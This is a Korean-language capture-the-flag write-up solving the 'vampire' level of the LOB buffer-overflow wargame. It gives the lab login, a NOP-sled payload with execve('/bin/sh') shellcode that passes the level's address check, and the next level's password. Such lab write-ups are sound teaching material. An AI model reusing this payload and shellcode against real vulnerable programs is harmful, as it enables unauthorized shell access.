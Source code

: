 # [LOB] vampire Write-up

![](./picture/vampire_1.JPG)

```
login : troll
Password : aspirin
```

위의 계정으로 로그인하면 접속 가능하다.

이번 문제의 소스코드는 다음과 같다.

![](./picture/vampire_2.JPG)

이번 문제는 주소의 2byte 부분이 ff이면 안된다. argv[2]에 쉘코드와 NOP을 많이 넣어 fe가 되도록 했다.

```
[troll@localhost troll]$ cp vampire aaaaaaa
```

우선 파일을 복사했다.

![](./picture/vampire_3.JPG)

복사한 파일로 실행시켰다. 첫 번째 인자로 NOP 44byte와 RET를 넣어주고, 두 번째 인자로 NOP 100000 byte를 넣고 쉘코드를 넣어주었다. 

![](./picture/vampire_4.JPG)

argv[2]의 주소를 확인해보면 `0xbffe75aa` 라는 것을 알 수 있다. 리턴주소로 argv[2]의 시작 주소를 넣어주면 된다. 페이로드는 다음과 같다.

```
./vampire `python -c 'print "\x90"*44+"\xaa\x75\xfe\xbf"'` `python -c 'print "\x90"*100000+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
```

argv[1]에는 `NOP(44byte) + RET(argv[2]의 시작주소 4byte)` 을 넣고, argv[2]에는 `NOP(100000byte) + 쉘코드(25byte)` 을 넣어준다.

![](./picture/vampire_5.JPG)

비밀번호는 `music world` 이다.